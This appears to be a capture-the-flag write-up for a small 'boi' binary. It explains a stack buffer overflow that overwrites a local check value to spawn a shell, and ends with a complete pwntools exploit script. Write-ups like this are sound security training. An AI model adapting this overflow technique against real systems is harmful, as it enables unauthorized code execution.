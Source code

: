![image](https://github.com/AndreQuimper/Writeups/assets/96965806/692e6dd9-3a52-4b11-b6cc-d55728af969a)  

If we run the binary we get the following:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8d720445-0758-4bb2-bada-bb37fec5d32f)  
Looks like we wont get much more information without looking at the disassembly.  

This is what main looks like:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c4e5d4e6-048f-482b-9d5f-134cf7bd1208)  
And this is what the stack layout looks like:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c2a3e143-0a33-4978-bada-2e4a98ba5030)  

Basically we can see that there is a stack region at `stack-0x24` that is set to `0xdeadbeef` and then compared to `0xcaf3baee` to determine if we print a date or run a shell.  
Since we can write 0x18 bytes into stack-0x38, we can determine an offset of 0x14 bytes and writing into the memory the desired value.  

Final Exploit:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template boi
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'boi')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
br *main+103
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendline(b"A"*0x14 + p64(0xcaf3baee))

io.interactive()
```





